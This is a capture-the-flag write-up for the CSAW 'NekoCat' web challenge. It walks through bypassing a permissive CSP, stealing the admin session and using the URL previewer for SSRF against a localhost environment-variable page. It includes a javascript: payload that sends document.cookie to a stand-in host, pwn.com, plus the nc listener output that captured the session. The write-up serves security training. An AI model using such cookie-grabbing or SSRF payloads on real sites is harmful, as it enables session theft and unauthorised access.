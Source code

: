 # NekoCat WEB 500 
![NikoCat](http://web.chal.csaw.io:1003/static/favicon.ico)
## Difficulty: ★★★★★

Link: http://web.chal.csaw.io:1003

# Idea

> * Bypass CSP by Abusing XSS Filter using inline
> * Escalate user permissions
> * Abusing URL Parser to read environment variables
> * Craft malicious session lead to RCE

# Walkthrough
description provide us the source code of the challenge 
[flagon.zip](https://ctf.csaw.io/files/a75d5b38afc3d477873e8ce01c468d85/flagon.zip)

we notice that challange uses Python Flask
so let's create account and try to see what's happen there 
http://web.chal.csaw.io:1003/register

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/ae6ec98e-8b7c-4909-9fc6-a2c6fe880bf5.png)

we try to post link but we can see only verfied users can preview link 

> app.py Line:152
```python
if verified_user(session, request.session.get('username'))[0]:
    preview = get_post_preview(link)
 ```
so the idea here is to get permession of verfied user in plateform
we can trigger an XSS attack to steal cookies from admin maybe
but when we dig more in the source code we see there is CSP rules implemented
> app.py Line:51
```python
def apply_csp(f):
    @wraps(f)
    def decorated_func(*args, **kwargs):
        resp = f(*args, **kwargs)
        csp = "; ".join([
                "default-src 'self' 'unsafe-inline'",
                "style-src " + " ".join(["'self'",
                                         "*.bootstrapcdn.com",
                                         "use.fontawesome.com"]),
                "font-src " + "use.fontawesome.com",
                "script-src " + " ".join(["'unsafe-inline'",
                                          "'self'",
                                          "cdnjs.cloudflare.com",
                                          "*.bootstrapcdn.com",
                                          "code.jquery.com"]),
                "connect-src " + "*"
              ])
        resp.headers["Content-Security-Policy"] = csp

        return resp
    return decorated_func
```
CSP is allowing javascript inline resources
so we can excute XSS in URL

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/e1458bad-b01f-4941-ba36-9c2ebb1e2020.png)

> but hold on xss triggred on when admin click on link

after another dig in plateform we noticed missing part 
> app.py Line:178
```python
@app.route('/report')
@apply_csp
def report(request):
    #: neko checks for naughtiness
    #: neko likes links
    pass
```
so there is feature that check links that reported , this the way how our admin checks the inline XSS link

let's craft and cookie grabber 
> [link]javascript:document.location="http://pwn.com:2128/"+document.cookie

and we listen for the request and report the link for being broken 
```
root@serveur [~]# nc -l 2128
GET /session_data=%22YWzU8XcjGIq5lmuao7nR65VW3yg=?name=gANYCAAAAE5la28gQ2F0cQAu&username=gANYDQAAAG1lb3dfYzdkM2M1MDhxAC4=%22 HTTP/1.1
Host: pwn.com:2128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:5000/post?id=20762&instance=c7d3c508-1b2a-481e-a83e-5e3214938bc5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

> Bingo we have the verfied user session so we can preview sites now 

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/0b810f23-03d8-4889-80da-559d79829b1f.png)

lets try to preview site 
> [link]http://www.google.com

it works

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/8b72962e-0868-4c32-8e89-e2442588fb7d.png)

we noticed from captured admin request that refrer is 

> Referer: http://127.0.0.1:5000/post?id=20762&instance=c7d3c508-1b2a-481e-a83e-5e3214938bc5

running on localhost 
and there is a route for reading environment variables called flaginfo

> flagon.py Line:65
```python
flaginfo_route = "/flaginfo"
        self.routes[flaginfo_route] = flagoninfo
        self.url_map.add(Rule(flaginfo_route, endpoint=flaginfo_route))
```

and the function flagoninfo()
> flagon.py Line:65
```python
def flagoninfo(request):
    if request.remote_addr != "127.0.0.1":
        return render_template("404.html")

    info = {
        "system": " ".join(os.uname()),
        "env": str(os.environ)
    }

    return render_template("flaginfo.html", info_dict=info)
```
it will be rendred if the ip adress accssed from is localhost
we have race condition here but we can use the url previewer to read it for us 

let's try 
> [link]http://127.0.0.1:5000/flaginfo
and we got nothing ??? hmmmmmm

![NikoCat](https://screenshotscdn.firefoxusercontent.com/images/112077b8-4612-4b13-a12f-63e2d133757c.png)

after another dig in source we see that flaginfo is filtred 
> app.py Line:13
```python
def get_post_preview(url):
    scheme, netloc, path, query, fragment = url_parse(url)

    # No oranges allowed
    if scheme != 'http' and scheme != 'https':
        return None

    if '..' in path:
        return None

    if path.startswith('/flaginfo'):
        return None

    try:
        r = requests.get(url, allow_redirects=False)
    except Exception:
        return None

    soup = BeautifulSoup(r.text, 'html.parser')
    if soup.body:
        result = ''.join(soup.body.findAll(text=True)).strip()
        result = ' '.join(result.split())
        return result[:280]

    return None
```

we see this commented line 

> # No oranges allowed

and this one 
> scheme, netloc, path, query, fragment = url_parse(url)

so url been parsed , there is bug discovered by [Orange Tsai](https://twitter.com/orange_8361?lang=en)

that abuse url parsing in diffrent programing languages , even browsers 

[A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)



